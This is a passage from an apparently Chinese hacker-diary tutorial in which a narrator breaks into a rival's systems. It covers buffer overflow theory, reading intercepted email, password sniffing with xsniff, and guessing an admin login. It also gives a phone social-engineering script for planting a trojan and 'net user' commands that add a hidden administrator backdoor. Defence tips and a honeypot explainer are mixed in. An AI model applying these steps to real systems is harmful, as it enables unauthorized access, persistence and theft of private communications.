如果你不会的话，就去一些大的网站或者一些漏洞公布的站点，如绿盟、BCT 等。那上面也许会有你需要的资料和工具，另外 baidu 和 google 也是很好的老师。学会看扫描漏洞分析，也是一项很重要的事情，不要小看它啊！它会让你在入侵时轻松地 Hacking。

## 日记三十四：服务器溢出漏洞分析总结

上古元年三百二十一年　22月20日　星期零　晴

现在正值夏天，夜晚的空气潮湿闷热。月光下一个黑影翻上天庭的围墙，一身紧身黑衣，脸上蒙着黑布，只有一对眼睛露在空气中。只见那人从腰中解下钩索，掷到楼顶。然后顺着钩索向小楼爬去。动作敏捷，一看就知道是行家。

可是爬到楼顶却发现有人在那里饶有兴趣地看着他，羿轻轻地拍着手轻蔑地说：“我见识了这么多的入侵者，却没有想到逢蒙你的功底这么差劲。今晚总算没有白白地坐在楼顶照月亮，敢问你准备给我表演什么新节目呀，说来听听如何。”

我对视了后羿一眼，终于面对面地攻击了！我挥手向地上一挥，砰然声响中升腾起两股白烟。白烟慢慢散去，主人公我已经消失得无影无踪。

回到自己住所的我微微皱起眉头，“怎么回事，到底是哪个环节出现了差错吗？不过今天是月圆之夜，我也真算是倒霉，希望羿不要追过来。”闭上眼睛，开始仔细过滤是哪个环节出错，顺便把 WEB 服务器轻松攻击全策略复习一遍！

慢慢地睁开双眼，惊讶地看着窗外。“这是什么气息，是人中之神？不对，这不是普通的气息，更不是妖怪。这种气息只有他才能发出来。”

“逢蒙，你在看什么呢？”在另一座大厦楼顶站着一个长发中年，这个长发中年身上散发着一种摄人心魄的气质。不是后羿又是谁！

“不愧是羿，这么快就找到我的藏身之地。”我冷笑道！一场恶战一触即发……但羿并没有想对我做什么，实际上在模特公司做服务器管理员，这 2 年多养尊处优的生活使他现在处于极度的慵懒状态，多一事不如少一事的思想已经在羿心里根深蒂固！要不是这次我做得过分了点，被他上司责令追查，羿才不会装模作样地来查！因为打死他也不知道我是个曾经被他黑过的小菜！

“你还有精神在这里闭目养神，是不是觉得逃不过我的手掌心索性束手就擒，等我来啊，算了，今天我就放你一次！”羿眯着眼懒洋洋地讽刺道。

我强忍着心中的怒火，没有发话！不是怕他，是我想叫他最终来个彻底的失败。羿见自己一人说着无趣，就装腔作势交代一番草草收场回天庭交差去了！

我心里很不爽，直奔自己在天庭图书馆开的后门，想雪洗今天的耻辱！虽然不算什么耻辱。在赶往天庭图书馆的时候我小心了许多，总是选无人的小路，避免与任何人的接触！以至花了十几个小时才到天庭图书馆！除了赶路以外，我一直在铭记前辈们的忠告并时刻提醒自己，尽管知道技术是很普通的技术，我们还是要不停地练着，因为我们需要强大自己保护自己。

到了天庭图书馆，感觉自从这次事件，天庭各方面都戒备好多了！我拿出准备好的绳索，把尖端带着软夹的钩子钩到 6 米高的墙上，然后背着城墙爬了进去，刚一落地，就有一卫士走了过来，赶紧趴下，连大气都不敢出一口，做小偷的感觉真是不好啊！一队威武的士兵走过来，身上轻型盔甲，肩上戴着天庭的袖章，腰间佩着大剑，走步铿锵有力。“呵，真帅啊！”也许自己也曾有想成为他们的愿望吧，我一直对安全人士有着无比的向往，虽然我现在自己是一个不折不扣的入侵者，但是那些攻与防的对战，那些场面在我的记忆中有着非常重要的地位。攻防对战虽然是残酷的，但它也显示无数个我和无数个羿的精华，也有推动网络安全进步的一面，在这里你可以看到我们最先进的技术，最强的武器，和最强大的攻防精英。

天庭图书馆位于天庭中心，像是个小型的战争堡垒。面南，背北，有南北两大门，东西两大门，正中心轴线上是图书馆大厅，厅前一个可容纳万人的阅览室，厅后才是成千上万图书的陈列柜！

> “总算安全了。”靠着我自己的经验躲过了十几队卫兵，绕过了几个奴仆，来到为了方便自己进出图书馆打的一个狗洞对面！

大大地呼了口气，逢蒙我平静下来，蹑手蹑脚但却极快地穿过花园，到了厅里，无心观察环境，就迫不及待地奔向左侧，透过狗洞透出的微光，也许我要找的秘笈就在那里吧！

找到了本《服务器溢出漏洞分析总结》秘笈，将秘笈复制一本带回住所慢慢地研究起来。缓冲区溢出是一种在各种操作系统、应用软件中广泛存在、普遍且危险的漏洞，利用缓冲区溢出攻击可以导致程序运行失败、系统崩溃等后果。更为严重的是，可以利用它执行非授权指令，甚至可以取得系统特权，进而进行各种非法操作。第一个缓冲区溢出攻击——Morris 蠕虫，发生在十年前，它曾造成了全世界 6000 多台网络服务器瘫痪。

## 缓冲区溢出的原理：

当正常的使用者操作程序的时候，所进行的操作一般不会超出程序的运行范围；而黑客却利用缓冲长度界限向程序中输入超出其常规长度的内容，造成缓冲区的溢出从而破坏程序的堆栈，使程序运行出现特殊的问题转而执行其它指令，以达到攻击的目的。造成缓冲区溢出的原因是程序中没有仔细检查用户输入的参数，属于程序开发过程考虑不周到的结果。

当然，随便往缓冲区中填东西造成它溢出一般只会出现“分段错误”（Segmentation fault），而不能达到攻击的目的。最常见的手段是通过制造缓冲区溢出使程序运行一个用户 shell，再通过 shell 执行其它命令。如果该程序属于 root 且有 suid 权限的话，攻击者就获得了一个有 root 权限的 shell，可以对系统进行任意操作了。

缓冲区溢出攻击之所以成为一种常见安全攻击手段，其原因在于缓冲区溢出漏洞普遍并且易于实现。而且缓冲区溢出成为远程攻击的主要手段，其原因在于缓冲区溢出漏洞给予了攻击者他所想要的一切：植入并且执行攻击代码。被植入的攻击代码以一定的权限运行有缓冲区溢出漏洞的程序，从而得到被攻击主机的控制权。

## 缓冲区溢出

在 1998 年 Lincoln 实验室用来评估入侵检测的 5 种远程攻击中，有 2 种是缓冲区溢出。而在 1998 年 CERT 的 13 份建议中，有 9 份是与缓冲区溢出有关的，在 1999 年，至少有半数的建议是和缓冲区溢出有关的。在 Bugtraq 的调查中，有 2/3 的被调查者认为缓冲区溢出漏洞是一个很严重的安全问题。

缓冲区溢出漏洞和攻击有很多种形式，会在第二节对它们进行描述和分类。相应的防卫手段也随着攻击方法的不同而不同，将在第四节描述，它的内容包括针对每种攻击类型的有效防卫手段。

缓冲区溢出攻击的目的在于扰乱具有某些特权运行的程序的功能，这样可以使攻击者取得程序的控制权，如果该程序具有足够的权限，那么整个主机就被控制了。它的具体实现过程是这样的：首先攻击者对 root 程序进行试探性攻击，然后执行类似“exec(sh)”的执行代码来获得具有 root 权限的 shell。为了达到这个目的，攻击者必须达到如下两个目标：

- 1、在程序的地址空间里安排适当的代码；
- 2、通过适当地初始化寄存器和内存，让程序跳转到入侵者安排的地址空间执行。

根据这两个目标来对缓冲区溢出攻击进行分类，缓冲区溢出攻击分为代码安排和控制程序执行流程两种方法：

- 1、在程序的地址空间里安排适当代码的方法：  
  (1) 植入法：  
  攻击者向被攻击的程序输入一个字符串，程序会把这个字符串放到缓冲区里。这个字符串包含的资料是可以在这个被攻击的硬件平台上运行的指令序列。在这里，攻击者用被攻击程序的缓冲区来存放攻击代码。缓冲区可以设在任何地方：堆栈（stack，自动变量）、堆（heap，动态分配的内存区）和静态资料区。  
  (2) 利用已经存在的代码：  
  有时攻击者想要的代码已经在被攻击的程序中了，攻击者所要做的只是对代码传递一些参数。例如攻击代码要求执行 exec（“/bin/sh”），而在 libc 库中的代码执行 exec(arg)，其中 arg 是一个指向字符串的指针参数，那么攻击者只要把传入的参数指针改为指向 /bin/sh。
- 2、控制程序转移到攻击代码的方法：  
  所有这些方法都是在寻求改变程序的执行流程，使之跳转到攻击代码。最基本的就是溢出一个没有边界检查或者其它弱点的缓冲区，这样就扰乱了程序正常的执行顺序。通过溢出一个缓冲区，攻击者可以用暴力的方法改写相邻的程序空间，从而直接跳过系统的检查。

分类的基准是攻击者所寻求的缓冲区溢出的程序空间类型。原则上可以是任意空间。实际上，许多缓冲区溢出是用暴力的方法来寻求改变程序指针的。这类程序的不同之处就在于程序空间的突破和内存空间的定位不同。主要有以下三种：

### （1）活动记录（Activation Records）

每当一个函数调用发生时，调用者会在堆栈中留下一个活动记录，它包含了函数结束时返回的地址。攻击者通过溢出堆栈中的自动变量，使返回地址指向攻击代码。通过改变程序的返回地址，当函数调用结束时，程序就跳转到攻击者设定的地址，而不是原先的地址。这类缓冲区溢出被称为堆栈溢出攻击（Stack Smashing Attack），是目前最常用的缓冲区溢出攻击方式。

### （2）函数指针（Function Pointers）

函数指针可以用来定位任何地址空间。例如：“void (*foo)()” 声明了一个返回值为 void 的函数指针变量 foo。所以攻击者只需在任何空间内的函数指针附近找到一个能够溢出的缓冲区，然后溢出这个缓冲区来改变函数指针。在某一时刻，当程序通过函数指针调用函数时，程序流程就按攻击者的意图实现了。它的一个攻击范例就是 Linux 系统下的 superprobe 程序。

### （3）长跳转缓冲区（Longjmp buffers）

在 C 语言中包含了一个简单的检验/恢复系统，称为 setjmp/longjmp。意思是在检验点设定“setjmp(buffer)”，用“longjmp(buffer)”来恢复检验点。然而，如果攻击者能够进入缓冲区的空间，那么“longjmp(buffer)”实际上是跳转到攻击者的代码。像函数指针一样，longjmp 缓冲区能够指向任何地方，所以攻击者所要做的就是找到一个可供溢出的缓冲区。一个典型例子就是 Perl 5.003 的缓冲区溢出漏洞；攻击者首先进入用来恢复缓冲区溢出的 longjmp 缓冲区，然后诱导进入恢复模式，这样就使 Perl 的解释器跳转到攻击代码上了。

## 2、代码植入和流程控制技术的综合分析

最简单和常见的缓冲区溢出攻击类型，就是在一个字符串里综合了代码植入和活动记录技术。攻击者定位一个可供溢出的自动变量，然后向程序传递一个很大的字符串，在引发缓冲区溢出、改变活动记录的同时植入了代码。这是由 Levy 指出的攻击模板。因为 C 在习惯上只为用户和参数开辟很小的缓冲区，因此这种漏洞攻击的实例十分常见。

代码植入和缓冲区溢出不一定要在一次动作内完成。攻击者可以在一个缓冲区内放置代码，这可以是不能溢出的缓冲区。然后，攻击者通过溢出另外一个缓冲区来转移程序指针。这种方法一般用来解决可供溢出的缓冲区不够大（不能放下全部代码）的情况。

如果攻击者试图使用已经常驻的代码而不是从外部植入代码，他们通常必须把代码作为参数调用。举例来说，在 libc（几乎所有 C 程序都要链接它）中的部分代码段会执行“exec(something)”，其中 something 就是参数。攻击者会使用缓冲区溢出改变程序参数，然后利用另一个缓冲区溢出使程序指针指向 libc 中的特定代码段。

## 日记二十五：缓冲区溢出攻击的防范方法

上古元年二〇二三年 1 月 2 日 星期二 晴

缓冲区溢出攻击占了远程网络攻击的绝大多数，这种攻击可以使一个匿名的 Internet 用户有机会获得一台主机的部分或全部权限。如果能有效地消除缓冲区溢出漏洞，则能使很大一部分安全威胁得到缓解。

目前有三种基本方法保护缓冲区免受缓冲区溢出攻击和影响：

- 1. 通过操作系统使得缓冲区不可执行，从而阻止攻击者植入攻击代码；
- 2. 强制写正确代码的方法；
- 3. 利用编译器的边界检查来实现缓冲区保护，使得缓冲区溢出不可能出现，从而完全消除缓冲区溢出的威胁。

仔细看过秘笈之后总觉得缺少点什么！原来书上的东西都是理论知识，总少点实践的东西！想着想着有什么好利用的呢？突然，想到了邮件！强烈的好奇心驱使着我去探究一下架那个小子的邮件到底有些什么东西！

邮件服务器的轻松扫描破解！


赶快找来了前辈小榕所造的神兵利器“流光”！我们先打开流光（图25-1），选中 POP3、IMAP 主机（即邮件收发服务器），点选高级扫描向导设置并扫描 IP 段（图25-2）！扫描出邮件服务器，启动 Outlook Express 配置到自己的计算机上（如图25-3、25-4、25-5、25-6）！

# 第三章：会攻还要会防


图 25-3


图 25-4


图 25-5


图 25-6

接下来点击下一步完成设置，羿跟他老婆嫦娥的邮件全部会发到我这里来了！“呵呵！”我终于笑了！而且笑得很阴险，我怀疑是不是我笑出来的！

在以后的漫长岁月中，我不断地窃取羿跟嫦娥的邮件！但是时间长了，也觉得很是无聊，便去天庭图书馆看看有什么免费的服务项目，自己也贪下小便宜！

对于服务器的免费服务我其实并不在意！

下面讲下代理服务器的利用！在网络上有很多代理服务器的 IP 地址都有公布下来！我们设置代理的时候，应该怎么弄呢？看我来介绍介绍：

- 1. 第一步：找到可以代理的服务器！我们可以到 http://www.ipbbs.com/ 上，每天更新很多全球最新的代理！我们选择一个自己认为可以的！
- 2. 第二步：右键单击 Internet Explorer 属性（图25-7），选择连接项！
- 3. 第三步：点击“局域网设置”按钮，并勾选“代理服务器”项，填写代理服务器的 IP 和端口号并确定！


代理有什么好处呢？第一，假如你想做什么事情又不想让别人知道你的真实地址，就用代理，这样别人就轻易查不到你的真实地址！第二，比如一个网站将你的 IP 屏蔽了，你登录不上这个网站，就可以使用代理 IP 登录！第三，黑客要攻击你的话，第一步是查找你的 IP 地址，如果你的 IP 是代理，很大程度上可以避免黑客的攻击！

## 日记三十六：反入侵

高 1 年，5 月 8 日，星期六，晴

不是逢蒙才会去图书馆学习，此时，我也正在天庭图书馆查看关于反入侵的一些资料，刚找到一个反入侵的文章！


书中写道：我的计算机中了“远程控制任我行”这个远程控制软件！我可以用江湖中一大至尊门派安全焦点的兵器 xsniff 来实现反入侵！先在 CMD 中运行 xsniff 并运行其参数：xsniff.exe -pass -hide -log pass.log（图26-1）

# 第三章：会攻还要会防


图26-2

`xsniff.exe -pass -hide -log pass.log`

这行命令中 -pass 代表过滤密码信息，-hide 代表后台运行，-log 表示将输出日志保存到某文件！我们这时候就等待记录日志文件的出现并分析它进行反入侵！（图26-2）接下来的事情就一目了然了！

> **小行友情提醒：** 连绵战争的斗争将会无止境地进行下去，这种斗争其实也在急速地刺激各界电子计算机行业的急速发展！

## 黑客日记

# 第四章：社会工程学攻击

| 条目 | 页码 |
|---|---|
| 日记二十七：原来欺骗也是攻击 | 66 |
| 日记二十八：我成功了 | 68 |
| 日记二十九：再次成功 | 70 |
| 日记三十：我也能防忽悠 | 72 |

## 聊天室中说：原来被骗也是攻击

上回二零零八年 9 月 9 日 星期二 晴天

经过两次失败和几个月的学习后，我开始总结前人的入侵经验。在黑客的攻击过程中，社会工程学也是必不可少的。那么什么是社会工程学呢？相信经常看《黑客手册》的各位读者一定对这个词语不太陌生，但是任何文章都是简要地说运用社会工程学得到什么什么。那么社会工程学究竟是什么意思呢？用东北话来说，社会工程学就是典型的忽悠学！我们都知道，一些恶意入侵系统并进行摧毁的人叫 cracker，而一些只会使用别人开发的工具去入侵的叫 script kiddies。而真正的黑客就是 cracker + script kiddies + 忽悠家。只要你能忽悠得目标主动把所有敏感信息都乖乖给你，那么你就是世界上最伟大的黑客，因为社会工程学也同样属于黑客啊！

> **菜鸟恶补：什么是社会工程学**  
> Social Engineering is an academic field of study to construct a theory to resolve various social problems by means of physical, social and institutional approach with special emphasis on step by step or piecemeal improvements based upon the two directional planning and designing experiences of the reality.  
> 社会工程学是关于建立理论，通过自然的、社会的和制度上的途径，并特别强调根据现实的双向计划和设计经验来一步接一步地解决各种社会问题。

总体上来说，社会工程学就是使人们顺从你的意愿、满足你的欲望的一门艺术与学问。它并不单纯是一种控制意志的途径，但它不能帮助你掌握人们在非正常意识以外的行为，且学习与运用这门学问一点也不容易。让我们看看社会工程学在我们的领域怎么解释：

社会工程学是一种攻击方式，攻击者利用人际关系的互动性所发出的攻击。通常攻击者如果没有办法通过物理入侵的办法直接取得所需要的资料时，就会通过电子邮件或者电话对所需要的资料进行骗取，再利用这些资料获取主机权限以达到其本身目的。

现在理解了吗？如果还是不能理解的话，我们就再举一个最最简单的例子来说明一下好了。

盗取 QQ 大家知道吧，除了本地盗取和远程盗取密码外，还有一种方式相信大家一定知道，就是通过和对方聊天。呵呵，还没想到？你总听说过有人通过了解对方的资料来窃取 QQ 的吧，比如生日、姓名等等。如果有个新加你 QQ 的陌生人，你又不熟悉他，他又迫不及待地想知道你的一切，你就要多长个心眼了，他是否想通过了解你的资料来破解你的 QQ 或者邮箱密码？

## 黑客日记

上面这个例子很容易理解吧，这就是社会工程学最简单的一个例子了，也许根本不能够叫社会工程学，只能算是比较简单的忽悠学，但是道理是一样的哦。

其实早在我刚开始学艺的时候，几个教过我的老师就给我讲过社会工程学，具体就是社会工程学定位在计算机信息安全工作链路的一个最脆弱环节上。以前孔子就经常给弟子们讲：最安全的计算机就是已经拔去了插头（注释：网络接口）的那一台（注释：“物理隔离”）。事实上，你可以去说服某人（注释：使用者）把这台非正常工作状态下的、容易受到攻击的（注释：有漏洞的）机器接上插头（注释：连上网络）并启动（注释：提供日常服务）。试图驱使某人遵循你的意愿去完成你想要完成的任务，是可以有很多种方法的。

第一种方法也是最简单明了的方法，就是目标个体被问到要完成你的目的时，给予其一个直接的“指引”。毫无疑问这是最容易成功的，也是最简单与最直观的方法了。当然，被指引的个体也会清楚地知道你想要他们干些什么。所以是最简单的也是最难达到的，正如“最危险的地方也是最安全的地方”这个道理。

第二种就是为某个个体度身定造一个人为的（注释：通过捏造手段）特定情形/环境。这种方法比仅仅考虑某个个体的相关信息状况附带更多因素，例如如何说服你的对象。你可以设定（注释：刻意安排）某个理由/动机去迫使其为你完成某个非其本身意愿的行为结果。这包括了远至为某个特定个体创造一个有说服力的企图而进行的工作，与大量你想得到的“目标”相关知识。这意味着那些特定情况/环境必须建立在客观事实的基础上。少量的谎言会使效果更好一些。

废话就不多说了，要想充分地把社会工程学搞好，三个方面必须好好掌握，这个是我在天庭图书馆领悟的一个心得。

- 1. 基本上，目标只是被我们简单地引导到一个已经设置好的、特定的（注释：故意安排的）思维模式上去。目标会认为他们可以控制住局面，在此同时他们也通过他们的力量帮助了你。这个就是个误导。我们要做的就是引导目标向你挖的这个陷阱里去跳。
- 2. 尽量少与目标发生冲突。使用平和的态度去面对对方，可以提高达成目的的成功几率。即使你心里在急于求成，但也不要表现出来，心平气和地和目标交流。
- 3. 不管怎么说，社会工程学运用是否能成功，也取决于目标个体与你的目的有多大关联。我们可以说系统管理员、计算机安全执行官、技术研究人员，那些依靠计算机/网络进行工作，亦或通过其进行通信的人，与大多数黑客使用社会工程学进行攻击的目标都有莫大关联。
- 4. 有一点需要注意：在进行某些工作的时候，能力低的个体会更多去仿效能力高个体的行为模式。在计算机系统管理方面，“能力低的个体”大多是指上文提到的“低关联的人”。就是说用社会工程学对付比你能力低的人可能很管用，但对比你能力高的人用这个办法，基本很难。

## 日记二十八：我成功了

上古二〇〇二十八年 9 月 10 日 星期二 晴天

失败了几次，我没有失去信心，相反还更有勇气。昨天学完了社会工程学，我当时都激动得要死了。因为作为后羿的对头，自己对后羿一些常用信息密码都一清二楚。因为要报仇，事先无论什么点都早踩过了！

心想这回就可以运用自己学的，再忽悠忽悠后羿。今天后羿正在负责公司的网站，那里有上好的硬件及各种防范措施，自己还是不要对那里下手了。而他自己的内部网从他上班后就没有好好更新过，看看他这个站能不能进去。首先，打开要攻击的网站，先看看各个页面，浏览一下。就好比小偷在下手之前要先查看一下身边地形、人群一样，也就是“踩点”。这个站点其实以前我来过很多次，但是因为那个时候只是进来看看新闻，所以一直都没有关注过这里的安全情况。


图28-1


图28-2

进入 www.****.cn，这次一仔细看，才发现首页做得很好，有个新闻系统，点一条新闻之后弹出页面，看了就很熟悉。看了看好像是无懈可击的样子，但是自己对头经常使用的信箱密码我是最清楚不过的了。因为以前后羿那小子曾经把自己的信箱告诉过他们公司的一个 PL 模特，而那个模特被我的事迹感动了，把这些信息都告诉我了。我还听说后羿一般是不更改自己密码的，他最常用的密码是 houyi，因为他平时都是以自己的名字作为密码的。所以我一阵窃喜，后羿平时喜欢用的就几个名字，一个是 admin，一个是 news，一个是 admin888。当在 www.****.cn 后加上 news 后，成功进入了后台登录界面。www.****.cn/news，出现了系统后台管理界面（图28-1）。

后羿一般的习惯是管理哪个站就用哪个站地址的某几个字符作为管理用户名，所以这次我想既然是 tianting，那么就可以围绕这个来测试一下，先后试了 tianting，输入密码 tianting，结果显示无权限，根本进不去（图28-2）。


图28-3

不行，bdqn888 也不行（因为老师也是喜欢吉利的啊）。最后试来试去，用了个 bdqn88666，输入密码 houyi（图28-3）。这次竟然进去了。找到修改管理员密码这一栏目（图28-4）。


图28-4

看到了吧？好恐怖哦，所有个人资料尽显我们的眼底，包括密码等。万一哪个人进来后有点什么念头……再想想自己的 QQ、信箱、论坛……用的都是一个密码……恐怖……也提醒各位读者，以后注册之前先考虑清楚，我尝试了一下，很多都是信箱和 QQ 共用一个密码的！

不知道这个网站用的什么系统，查看了下，发现是中金软科技发展有限公司在线新闻发布系统。好像这个系统一般站点用得并不是太多，所以老师连改都没改过。baidu 里搜了下，竟然一个链接都没有。估计老师后羿就是看这个是内部系统，所以就忽略了安全啊！

> 任我小行友情提醒：好了，写到这里，这次不是入侵的入侵也算完成了。不知道你看过之后有什么收获？小行这里提醒大家一定要一个东西用一个密码啊，密码一定不要弄一样的啊！我去给这个站点管理员打个电话告诉他们这个严重问题啦！

## 日记三十九：再次成功

上古三百二十八年9月9日 星期六 不是晴天也不是阴天

## 巧取情报

地点一：办公室A，电话响。

职员：你好，我是小王，这里是A办公室。  
攻击者：你好，我是网络技术支持的李xx，我们正在进行正常的网络维护，请问你们办公室的网络有出现任何问题吗？  
职员：嗯，据我所知没有。  
攻击者：你自己在使用上有什么问题吗？  
职员：没有。  
攻击者：好的，我想说的是如果网络有任何问题及时通知我们是很重要的，我的任务就是确定每个办公室的电脑可以保持在线。  
职员：我们这里的网络状况良好。  
攻击者：我所说的情况是有可能出现的。如果出现了任何情况，请你及时打这个电话告诉我们。电话号码是：12345678。  
职员：好的，如果有情况我会及时通知你们的。  
攻击者：还有一件事情。你能告诉我你的电脑所连接的端口的号码吗？  
职员：端口？  
攻击者：就是在你电脑后面，在插网线的地方有注明端口号码。  
职员：看到了，号码是123。  
攻击者：请稍等，端口123\~\~\~\~。好的，谢谢。记得有情况及时通过电话通知我们，再见。

地点二：此公司的网络管理室，电话响。

网管：你好，网管室。  
攻击者：你好，我是办公室A的小王，我们正在解决我们电脑网线上的一点问题，你可以暂时停止端口123的网络连接吗？  
网管：好的，请稍等~~~~，好了，已经暂时停止了。  
攻击者：谢谢。

一个小时之后，攻击者的电话响。

攻击者：你好，这里是网络支持，我是小王。  
职员：你好，我是办公室A的小李，我们的网络出现了问题，我们的电脑不可以保持在线状态了。  
攻击者：嗯，我可以帮你解决，但是我现在先要解决其他办公室的网络问题，你可以等等吗？  
职员：要多久，我还有工作要做呢！  
攻击者：我会尽快的。请稍等。

这样，攻击者又打了一个电话给网管室，要求网络管理员打开办公室A的网络连接。半小时后，办公室A，电话响。

攻击者：我是网络支持的李xx。  
职员A：你好，解决了吗？  
攻击者：已经好了，请你试试。  
职员A：~~~~~，是的，已经可以用了，很感谢你。  
攻击者：好的，但是有一个问题，为了不让办公室电脑的网络老是和网络断开连接，我们设计了一个软件，我把地址给你，请你去下载并安装这个软件，网址是 http://www.xxxx.com。

然后，攻击者知道这个职员一定会去他早已设置好的陷阱，并下载该软件。

职员A：我执行了这个软件，但是什么都没发生啊。  
攻击者：嗯！也许我们在编写的时候出现了一些错误。这样吧，你不要再尝试安装了，等我们重新编写后你再装吧。

就这样，一个木马程序被安装到了这台电脑上面。

如何？入侵者不用任何繁琐的电脑手段就轻易地把一个木马安装进了网络中的一台电脑，这就是社会工程学的威力了。

> **任我小行友情提醒：**  
> 首先，熟练的社会工程学使用者都擅长进行信息收集，很多表面上看起来一点用都没有的信息都会被这些人利用起来进行渗透。比如说一个电话号码、一个人的名字，或者工作ID的号码，都可能被利用起来。所以在没有百分之百的把握下，请你不要轻易泄露你的信息给陌生人。  
> 其次，很多社会工程学攻击是很复杂的，包括了周详的计划，并且综合运用了相当的技巧。但是你也可以发现，一些熟练的社会工程学攻击者经常可以只用简单的方法达到他的目的，直接地进行询问并且获得他所需要的信息常常是行之有效的。建立信任也是一项社会工程学的手段，而且是相当重要的手段。试想一下，如果你和某公司某人建立相当牢固的信任关系，要取得一些重要的敏感信息不就相对容易得多了吗？要在短时间内获得信任是不容易的，但是也不是没有可能的。如果能被证明你是可以被信任的，那不就比较容易获得信任了？所以任何事情都要多留个心眼，进行多方论证。如上面的例子，你完全可以打电话给几个当事人核实，是不是真的？

## 日记三千：我也能防忽悠

上高二，宿舍十八人住。9月15日，星期八，地下雨

自己简单总结了下最近成功的经验，给出了几点心得给广大读者。

- 1. 无论如何，对付与防御这类型攻击的最有效手段，也作为最常见的手段，就是“教育/培训”了。作为个人用户一定不要随便泄露自己的信息给别人。对于公司员工，要教育你的雇员与那些有可能被利用作为社会工程学实施目标的人关于计算机/信息安全的重要性。直接给予容易被攻击的人们一些预先的警告，已经足以让他们去辨认社会工程攻击了。不过要记着，在教育他们计算机信息安全的时候可以使用一些故事及其“双面性”来作为例子。这并不是我自己的个人喜好哦。当个体明白了这个焦点的“双面性”以后，他们基本上就不会动摇他们所处的立场了。而且如果他们是专注于计算机安全技术的话，那么他们更有可能会站在维护你的数据安全的立场上。

- 2. 也有不会遵从人们的说服力倾向而作出行动的思维因素。在这里你必须有清晰的思维、高度的创造力、可以应付和处理压力的能力与适当的自信。压力的处理能力与自信可以通过后天培养。至于自身的主张和见解，常常被用于对员工的管理方面，训练它可以减少某些个体被施行社会工程学攻击的机会，也有助于其他方面的工作。了解各种使人们的信息安全意识降低与威胁你的安全策略的因素。其实这方面只需要投入小量的精力，就可以在降低安全风险方面产生很大的成效了。

- 3. 与普通的思想观念相反，运用社会工程学捕捉人们的心理状态的技巧要比入侵一个sendmail容易得多。但如果你想让你的员工去预防与检测社会工程学攻击的话，其效果绝对不会比你让他们去维护UNIX系统安全的效果明显。站在系统管理员的立场上，不要让“人之间的关系”问题介入你的信息安全链路之中，以至于让你的努力前功尽弃。站在黑客的立场上呢，当系统管理员的“工作链”上存放有你所需要的数据时，千万不要让他“摆脱”自身的脆弱环节。

## 黑窑日记

# 第五章：欲擒故纵——捉迷藏

| 章节 | 页码 |
|---|---|
| 日记三十一：没事抓肉鸡玩 | 74 |
| 日记三十二（上午）：蜜罐技术探索 | 74 |
| 日记三十二（下午）：深刻地了解 | 78 |

## 日记三十一：没事抓肉鸡玩

上古二○○三十八年 9月19日 星期九 小雨

最近入侵了一台服务器，正想着用什么木马来长期地控制它！对于前辈们的话，有时候还是有所领略的！记得前辈们曾说过：“木马病毒不被查杀是不可能实现的，只是时间迟早问题，想要长期地控制一台计算机最好的办法是从它系统本身的缺点入手。”

在排除制作木马免杀的念头后，决定进入系统给自己加一个隐藏的超级管理员，利用它系统本身就会存在的3389远程管理服务，冠冕堂皇地做自己想做的事情！


图31-1

建立隐藏的超级管理员步骤如下：

- 1. 建一个隐藏帐号 nohake$，在 CMD 下输入：`net user nohake$ pizzaviat /add`（图31-1）。
- 2. 将 nohake$ 变为 Administrator（如果管理员密码更改，下次我们可以用 nohake$ 再次访问这台计算机），在 CMD 下输入：`net localgroup administrators nohake$ /add`。
- 3. 退出后删除建立的连接，在 CMD 下输入：`net use \\目标机器IP\admin$ /del`。

这时候，我对服务器有了绝对的控制权了！在我心里还美滋滋地鄙视邪的水平也不过如此嘛！就在这时，我突然想起了在黑客界传言关于老师的蜜罐技术。

## 日记三十二（上篇）：蜜罐技术探悉

上古二○○三十八年 10月1日 星期二 小小雨

说起蜜罐技术，既是攻击又是防御。相信我们的读者平时都喜欢看一些电影，那些大片，叫人看着就是过瘾。《特洛伊》里庞大的希腊舰队，《终结者2》里随意改变形体的“液体金属”，《侏罗纪公园》里满地乱跑的恐龙们，《黑客帝国》里的“子弹时间”……随着计算机技术的不断发展，越来越多的电脑特技被应用在电影领域，不需要工资的虚拟演员不知辛劳地日夜工作，这些电脑技术使得导演可以构思现实中不可能存在的情节环境，也减少了影片开支。但是，在计算机的信息安全领域里，网络管理员要面对的是黑客真枪实干的入侵破坏。那么如果作为老师想系统地、全面地给学生展示下入侵与实际战术的表演，就一点办法都没有了吗？答案是否定的，蜜罐就是作为填补这个技术空白而产生的。另一方面，“蜜罐”让黑客误以为已经成功入侵，并让其继续“为所欲为”，我们的目的在于观察蜜罐，以便我们的管理员能把黑客“抓住”。

> **菜鸟恶补：** 蜜罐，或称 Honeypot，与应用于电影的特技相比，它并不神秘。所谓蜜罐，就是一台不作任何安全防范措施而且连接网络的计算机。但是与一般计算机不同，它内部运行着多种多样的数据记录程序和特殊用途的“自我暴露程序”——要诱惑贪嘴的黑熊上钩，蜂蜜自然是不可少的。

如果那位入侵者不小心入侵到了蜜罐，那么就好比是一只被戏耍的猴子，服务器管理员好比是在看着一个精心设计的陷阱，在仔细地观察着入侵者，而入侵者也会随着入侵的进展从欣喜到郁闷。《终结者2》里阿诺让约翰把自己放入熔炉，《特洛伊》里 Achilles 被王子射杀，战争片里的机枪扫射，甚至《黑衣人》里外星人发射的核弹毁灭了北极！如果这一切是真实的话，我们的明星已经成为墙上的照片了，拍一部片要死多少人？况且，我们只有一个地球，值得为了部影片炸掉某个地区？所以人们必须采用电脑特技完成这些不能真实发生的剧情。同样，管理员也不会为了记录入侵情况而让入侵者肆意进入服务器搞破坏。作为课堂里不需要出现破坏局面但还要确保每个学生都能学到真正入侵过程的方式，如果单纯理论会叫所有学生感到枯燥，所以蜜罐出现了。

